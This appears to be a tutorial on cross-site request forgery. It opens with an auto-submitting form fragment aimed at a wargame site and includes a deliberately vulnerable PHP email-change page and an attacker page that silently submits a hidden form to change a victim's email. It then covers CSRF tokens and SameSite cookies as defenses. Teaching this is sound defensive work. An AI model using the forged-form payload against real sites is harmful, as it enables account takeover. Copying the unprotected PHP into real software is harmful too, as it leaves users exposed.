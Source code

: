 ### csrf attack

```cmd
<body onload="document.forms['modify'].submit()" >

<form  name="modify" action="http://reversing.kr/prc/prc_modify.php " method="post">
```
### CSRF Attack: Explanation and Live Example with Source Code
CSRF (Cross-Site Request Forgery) is a type of web security vulnerability where an attacker tricks a user into unknowingly performing an action on a web application in which the user is authenticated. The attacker can force the user to send requests on their behalf, without the user's knowledge, which may lead to unintended consequences such as changing user details or making transactions.

In this tutorial, we'll cover the following:

What is a CSRF attack?
How does a CSRF attack work?
A live example with HTML and PHP code.
How to prevent CSRF attacks.
How Does a CSRF Attack Work?
Victim Authenticated: The victim is authenticated on a target website (e.g., a banking site or social media).
Malicious Request: The attacker tricks the victim into making a request to the target site by embedding a malicious request in a link, form, or script (often on a third-party site).
Unintended Action: Since the victim is already authenticated, the browser automatically sends their cookies with the request, and the target website executes the malicious action, believing it is a legitimate request from the user.
Live Example of a CSRF Attack
Let's assume we have a simple web application that allows users to change their account email address. Without CSRF protection, this page is vulnerable to attack.

### 1. Victim’s Web Application (PHP): Change Email Page
```php
<!-- change-email.php -->
<?php
session_start();
if (!isset($_SESSION['user_id'])) {
    die("You are not logged in.");
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $new_email = $_POST['email'];
    // Update the user's email address (in a real application, use prepared statements to avoid SQL injection)
    // For example, assuming you have a user update function:
    update_user_email($_SESSION['user_id'], $new_email);
    echo "Email updated successfully!";
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Change Email</title>
</head>
<body>
    <h2>Change your email</h2>
    <form action="change-email.php" method="POST">
        <label for="email">New Email:</label>
        <input type="email" id="email" name="email" required>
        <button type="submit">Change Email</button>
    </form>
</body>
</html>
```
In this application, a logged-in user can change their email by submitting the form. However, this is vulnerable to a CSRF attack because there's no mechanism to verify that the request originated from a legitimate user.

## 2. Attacker’s Malicious Page (CSRF Attack)
The attacker can create a malicious page that submits a hidden form to the change-email.php page, exploiting the fact that the victim is already authenticated.

```html
<!-- csrf-attack.html -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF Attack</title>
</head>
<body>
    <h1>This is a harmless-looking page</h1>
    <form id="csrfForm" action="http://victim-website.com/change-email.php" method="POST">
        <input type="hidden" name="email" value="attacker@example.com">
    </form>

    <script>
        // Automatically submit the form when the page loads
        document.getElementById("csrfForm").submit();
    </script>
</body>
</html>
```
When the victim, who is logged into victim-website.com, visits the attacker's page (csrf-attack.html), the hidden form is automatically submitted. Since the victim's browser includes the authentication cookies, the request will be processed, and the attacker's email will replace the victim's email.

### Preventing CSRF Attacks
To prevent CSRF attacks, you can implement several defenses:

## 1. CSRF Tokens
A CSRF token is a unique, unpredictable value generated by the server and embedded in each form. This token is verified when the form is submitted to ensure the request is legitimate.

Here's how you can add CSRF protection to the previous example:

PHP Code with CSRF Token Protection:
```php
<!-- change-email.php -->
<?php
session_start();
if (!isset($_SESSION['user_id'])) {
    die("You are not logged in.");
}

if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32)); // Generate a CSRF token
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
        die("CSRF token validation failed!");
    }

    $new_email = $_POST['email'];
    update_user_email($_SESSION['user_id'], $new_email);
    echo "Email updated successfully!";
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Change Email</title>
</head>
<body>
    <h2>Change your email</h2>
    <form action="change-email.php" method="POST">
        <label for="email">New Email:</label>
        <input type="email" id="email" name="email" required>
        
        <!-- Add the CSRF token to the form -->
        <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
        
        <button type="submit">Change Email</button>
    </form>
</body>
</html>
```
Now, when the form is submitted, the CSRF token is checked against the one stored in the session. If the tokens don’t match, the request is rejected.

## 2. Same-Site Cookies
Another effective method to prevent CSRF attacks is setting the SameSite attribute on cookies. This restricts cookies from being sent on cross-site requests.

```php
setcookie("session_id", $session_id, [
    'samesite' => 'Strict', // Prevents cookies from being sent with cross-origin requests
    'secure' => true,        // Ensure cookies are sent over HTTPS only
    'httponly' => true       // Prevents access to cookies via JavaScript
]);
```
### Conclusion
A CSRF attack occurs when an attacker tricks a user into performing actions they did not intend. By implementing defenses like CSRF tokens and Same-Site cookies, you can protect your web applications from these attacks.

In the above example, we demonstrated a vulnerable web page and showed how an attacker can exploit it. With the addition of a CSRF token, the application can validate the origin of the request and prevent malicious actions.
